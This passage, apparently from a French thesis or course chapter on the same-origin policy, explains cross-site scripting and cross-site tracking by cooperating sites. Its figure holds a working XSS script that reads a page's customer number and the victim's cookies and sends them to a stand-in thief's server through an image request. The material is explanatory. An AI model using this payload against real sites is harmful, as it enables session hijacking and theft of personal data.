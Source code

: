 \begin{figure}[h]
	\centering
	\begin{lstlisting}
<script>
  // Vol du numero de client
  var numeroDuClient = document.getElementById('numClient').innerHTML;
  // Vol du cookie
  var cookieDuClient = document.cookie;
  // Requete contenant les informations volees :
  var requete = 'http://serveur-du-voleur.be/vol?client=' + numeroDuClient + '&cookie=' + cookieDuClient;
  // Envoi de la requete avec une image
  document.write("<img src='" + requete + "'/>");
</script>
	\end{lstlisting}
	\caption{\label{exemple_XSS}Un exemple d'attaque XSS pour voler des informations.}.
\end{figure}
Quand le client va se rendre sur la page, son navigateur va automatiquement faire une requête vers le serveur du voleur. Son navigateur l'avertira seulement que l'image n'a pas été trouvée mais les informations auront été néanmoins transmises au voleur. Cette attaque nécessite un minimum de préparation car le voleur doit savoir quel est le nom ou l'ID de l'élément HTML qui affiche le numéro de client (dans l'exemple, "numClient").
Ceci est un premier exemple de violation du principe de même origine réalisé avec l'aide d'une faille XSS.
\newline

Il existe plusieurs moyens de contourner le principe de même origine. Le but de ce chapitre n'étant pas d'en faire une liste exhaustive, seuls quelques moyens seront expliqués.
Il faut également préciser que même si le principe était correctement implémenté au sein d'un navigateur, il n'empêcherait pas les violations de vie privée face à des sites coopérants. Ceci s'explique par le fait qu'il existe une multitude de techniques simples allant des redirections jusqu'aux liens inter-sites pouvant être utilisées dans le but de transmettre des données entre des sites. Avec de tels échanges, les sites coopérants sont dans la capacité de constituer un profil inter-domaine des activités de leurs visiteurs.


